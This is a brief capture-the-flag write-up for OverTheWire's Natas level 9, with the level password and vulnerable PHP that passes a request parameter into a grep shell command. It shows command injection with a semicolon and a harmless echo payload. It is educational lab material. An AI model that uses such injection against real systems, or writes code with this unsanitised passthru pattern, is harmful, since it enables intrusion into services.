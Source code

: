 ## [Natas Level 9->10](http://natas9.natas.labs.overthewire.org)
#### Natas9 Password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

Looking at the source code, we find:
````
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
````

It looks like $key is the input in "grep -i $key dictionary.txt". If we use a semicolon somewhere in our input, we can divide the line into >1 command.

For example, using the input '; echo "hi";' will exec the command
````console
user@site: ~$ grep -i ; echo "hi"; dictionary.txt
````
causing the Output to say "hi".

